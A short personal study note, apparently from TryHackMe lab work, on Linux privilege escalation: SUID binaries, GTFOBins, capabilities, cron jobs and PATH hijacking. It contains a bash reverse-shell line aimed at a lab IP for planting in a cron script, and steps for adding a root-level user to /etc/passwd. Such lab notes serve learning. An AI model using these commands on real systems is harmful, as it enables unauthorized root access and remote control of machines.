 (alternative from THM kenobi) doesnt show -rwsr-etc
```shell
find / -perm -u=s -type f 2>/dev/null
```

**"s" bit is set:**
![[Pasted image 20220131154953.png]]

Then check gtfobins: https://gtfobins.github.io/#+suid for expoitable binaries.

Also, access to a text editor as root can allow read/write of files like /etc/shadow and /etc/passwd.

To add a user to /etc/passwd that has root privileges:
1. get hash of password we want the new user to have:
```bash
openssl passwd -1 -salt THM password1
```
2. add to /etc/passwd
```bash
hacker:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash
```

## Capabilities getcap
```bash
getcap -r /
```
Lists enabled capabilities but generates errors as unprivileged user.
```bash
getcap -r / 2>/dev/null
```
Check gtfobins

## Cron Jobs
Any user can read system wide cron jobs:
```bash
/etc/crontab
```

Set up a listener, add to backup.sh (for example)
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.2.112.113/9999 0>&1
```

## Path
1.  What folders are located under $PATH
2.  Does your current user have write privileges for any of these folders?
3.  Can you modify $PATH?
4.  Is there a script/application you can start that will be affected by this vulnerability?

Check which folders you have write access to:
```bash
find / -writable 2>/dev/null
```

